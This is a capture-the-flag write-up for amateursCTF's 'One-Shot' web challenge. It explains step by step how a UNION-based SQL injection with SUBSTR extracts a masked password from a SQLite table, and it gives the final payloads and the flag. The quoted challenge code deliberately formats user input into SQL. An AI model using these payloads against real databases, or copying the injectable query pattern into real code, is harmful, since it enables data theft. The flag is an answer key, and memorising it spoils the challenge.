

# One-Shot


### Desccription :
my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! `http://one-shot.amt.rs`


## Downloads

[app.py](app.py)

[Dockerfile](Dockerfile)

## Solution

This challenge is about sql injection. we have to retrive password from database and submit it for get flag.

Let's look at code,

```python

@app.route("/")
def home():
    return """
    <h1>You have one shot.</h1>
    <form action="/new_session" method="POST"><input type="submit" value="New Session"></form>

```

this will simply redirect us to `/new_session` and create random `id` using `os.urandom(8).hex()`.
then creat a database with name of table_{id} with column of password and INTEGER . at the same time add values to it 
` db.execute(f"INSERT INTO table_{id} VALUES ('{os.urandom(16).hex()}', 0)")` . password is also random and changed into hex.


```python

@app.route("/new_session", methods=["POST"])
def new_session():
    id = os.urandom(8).hex()
    db.execute(f"CREATE TABLE table_{id} (password TEXT, searched INTEGER)")
    db.execute(f"INSERT INTO table_{id} VALUES ('{os.urandom(16).hex()}', 0)")
    res = make_response(f"""
    <h2>Fragments scattered... Maybe a search will help?</h2>
    <form action="/search" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="query" value="">
        <input type="submit" value="Find">
    </form>
""")


```

now we have an input fild with name `query`, enter somthing and submit. you will be redirect to `/search` page with id and query parameters.


```python

@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")

    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>


```

this will check if id is valid or not, mean we can't edit or inject code into this. and if id is valid then it will check if if searched is 0 or 1, if 1 then `you've used your shot.` will be response. and if not 1 then process further. 

now our query will be executed here `query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")`
this will select all match for query and print. then it's simple we will get flag rigth, Nooo look next `{"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}` this only print first letter of result and then put `********`. that mean we only can see first letter of password.

now we have to inject code that we can get all letters of password. what we can do is use `UNION` or `OR` for inject additinal query. and for do so we need table name and we alrealy know how table name is created it's random but this also sended to `/guess` page with hidden parameter name `id`, just get that and put it to `table_id here`.

our id is `4d9ef5c3c4722897` mean table name is `table_4d9ef5c3c4722897`. let's try `' UNION SELECT password FROM table_4d9ef5c3c4722897 WHERE 1=1; --`

nothing special we get: 


  NOTE: and also we can't use this table again, bcoz our searched is updeted to 1.

  ` searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")`


we have to create another session for that visit website home page again and start `new_session`.
and you will get new table-name (new id).


now let's try `' UNION SELECT password FROM table_4d9ef5c3c4722897 WHERE 1=1 UNION SELECT password FROM table_4d9ef5c3c4722897 WHERE 1=1; --`
Now response is something intreasting.


What we have to now is slecte all letters of password, for that we can use SUBSTR(password, 1, 1).
this will give us first letter, and do same for all. as we know password is 32 chars long so use previos query 32 time with substr().


<details>
<summary markdown="span">query will be : </summary>

```sql

' UNION SELECT
(SELECT SUBSTR(password, 1, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 2, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 3, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 4, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 5, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 6, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 7, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 8, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 9, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 10, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 11, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 12, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 13, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 14, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 15, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 16, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 17, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 18, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 19, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 20, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 21, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 22, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 23, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 24, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 25, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 26, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 27, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 28, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 29, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 30, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 31, 1) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 32, 1) FROM table_4d9ef5c3c4722897 LIMIT 1); --


```
</details>


intresting we get:


Problem is we have all letter in unorganised order, think about this how can we get all in order.
we can use use thirs perameter (arg) of SUBSTR, this will give us all letters in currect order.


<details>
<summary markdown="span">Final query will be : </summary>

```sql

' UNION SELECT
(SELECT SUBSTR(password, 1, 32) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 2, 31) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 3, 30) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 4, 29) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 5, 28) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 6, 27) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 7, 26) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 8, 25) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 9, 24) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 10, 23) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 11, 22) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 12, 21) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 13, 20) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 14, 19) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 15, 18) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 16, 17) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 17, 16) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 18, 15) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 19, 14) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 20, 13) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 21, 12) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 22, 11) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 23, 10) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 24, 9) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 25, 8) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 26, 7) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 27, 6) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 28, 5) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 29, 4) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 30, 3) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 31, 2) FROM table_4d9ef5c3c4722897 LIMIT 1) UNION ALL SELECT
(SELECT SUBSTR(password, 32, 1) FROM table_4d9ef5c3c4722897 LIMIT 1); --


```
</details>


Response: 



submit password and you will get flag:


#### flag :   amateursCTF{go_union_select_a_life}